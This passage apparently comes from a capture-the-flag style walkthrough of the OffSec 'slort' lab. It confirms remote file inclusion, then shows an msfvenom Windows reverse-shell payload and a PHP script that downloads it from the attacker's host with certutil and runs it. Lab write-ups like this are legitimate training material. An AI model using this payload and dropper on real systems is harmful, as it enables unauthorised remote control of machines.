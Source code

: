 ```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ echo 'i am a canary' >> canary.txt
                                                                                                                                                                                           
┌──(kali㉿kali)-[~/offsec/slort]
└─$ python -m http.server 443                                                                              
Serving HTTP on 0.0.0.0 port 443 (http://0.0.0.0:443/) ...
```

And look at that! RFI confirmed.

![](./assets/rfi.png)

What's left is serving a reverse shell the same way we served the canary file and getting the remote machine to execute it.

We need to create an executable reverse shell for windows:

```
┌──(kali㉿kali)-[~/offsec/slort]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.205 LPORT=4242 -f exe > rshell.exe      
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

And a PHP script to download and run the executable:

```
<?php

$KALI_HTTP_SERVER_HOST = "192.168.45.205";
$KALI_HTTP_SERVER_PORT = 443;
$FILENAME = "rshell.exe";

$url = sprintf("http://%s:%d/%s", $KALI_HTTP_SERVER_HOST, $KALI_HTTP_SERVER_PORT, $FILENAME);
$download_cmd = sprintf("certutil.exe -f %s %s", $url, $FILENAME);

$download_out = system($download_cmd); // download the executable
$execute_out = system($FILENAME);      // run the executable

?>
```
